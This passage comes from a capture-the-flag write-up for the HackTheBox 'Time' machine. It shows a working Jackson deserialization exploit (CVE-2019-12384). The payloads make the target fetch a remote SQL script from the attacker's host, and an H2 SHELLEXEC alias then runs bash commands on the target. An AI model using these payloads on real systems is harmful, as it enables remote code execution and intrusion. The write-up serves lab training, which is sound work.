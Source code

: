 > Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
> 

This is a java error, telling me that the backend is running java. To validate JSON, it uses the Jackson package. So I searched through the internet. I found a lot of CVEs for Jackson, but none of them worked, until I found this page (CVE-2019-12384):

[Jackson gadgets - Anatomy of a vulnerability](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

To test, I used this payload:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", 
{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

When sending this payload, I get another error message, which shows me that this method works:

> Validation failed: 2021-09-29 08:55:39 lock: 3 shared read lock unlock SYS
> 

So I can try to get a connection to my local web server running on my kali machine:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", 
{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.6/inject.sql'"}]
```

Look at the web server:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/time]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.214 - - [29/Sep/2021 10:49:19] code 404, message File not found
10.10.10.214 - - [29/Sep/2021 10:49:19] "GET /inject.sql HTTP/1.1" 404 -
```

So there is the way to execute code on this system.

# Exploitation

---

Above the sample payload, there is a sample SQL (you can only run SQL commands). This SQL code can execute commands in a java shell. So let's use this to ping my machine:

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 4 10.10.16.6')
```
